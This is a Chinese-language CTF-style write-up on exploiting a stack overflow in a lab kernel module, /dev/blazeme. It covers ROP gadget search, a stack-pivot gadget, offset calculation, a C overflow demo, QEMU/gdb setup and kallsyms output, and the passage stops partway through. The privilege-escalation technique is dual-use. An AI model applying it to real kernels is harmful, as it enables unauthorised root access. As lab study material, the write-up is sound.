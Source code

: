 1. 使用[extract-vmlinux](https://github.com/torvalds/linux/blob/master/scripts/extract-vmlinux)从bzImage中解析出vmlinux,用于寻找ROPgadget
`extract-vmlinux bzImage > vmlinux`

2. ropper 查找ROPgadget
`ropper --file ./vmlinux  > rop`导出的文件就有50M
作者选择了
`0xffffffff8109c604: mov esp, 0x1740000; ret;`
用这个地址覆盖返回地址,正好可以做栈迁移到0x1740000。将地址0x1740000用mmap申请出来,填充上用户态的提权函数地址即可。

3. 确定偏移
和用户态利用一样,需要定位到返回地址的偏移,可以从IDA中读取,IDA中查看溢出的str变量位置为rbp-0x210, 加上rbp的8字节就是0x218
0x218/64 = 8 ,也就是说8次写入后第九次就正好覆盖了返回地址。

也可以调试查看一下

先编写一个小demo
```
#include <fcntl.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/mman.h>
#include <unistd.h>
void main(){
  unsigned long pay[65];
  for(int i=0;i<64;i++){
      pay[i]=0x4242424242424242ull;
  }
  char *addr = "AAAAAAAA";
  strcat(pay,addr);

  int fd = open("/dev/blazeme", O_RDWR);
  for (int i=0;i<1000;i++) {
    write(fd, pay, 64);;
  }
}

```

修改一下启动脚本, 添加gdb调试端口
```
#!/bin/sh
/usr/bin/qemu-system-x86_64 -kernel bzImage -smp 1 -hda ./rootfs.ext2 -boot c -m 128M -append "root=/dev/sda nokaslr rw ip=10.0.2.15:10.0.2.2:10.0.2.2 console=tty1 console=ttyAMA0" -net nic,model=ne2k_pci -net user -nographic -gdb tcp::1234
```
我们要定位栈溢出的部分,在每次write操作下断点

```
# cat kallsyms | grep blaze
ffffffffc0000190 t blazeme_open [blazeme]
ffffffffc00002f0 t cleanup_module       [blazeme]
ffffffffc00001a0 t init_module  [blazeme]
ffffffffc0000010 t blazeme_read [blazeme]
ffffffffc0000000 t blazeme_close        [blazeme]
ffffffffc00001a0 t blazeme_init [blazeme]
ffffffffc0000050 t blazeme_write        [blazeme]
ffffffffc00002f0 t blazeme_exit [blazeme]
```
text段的基地址是0xffffffffc0000000
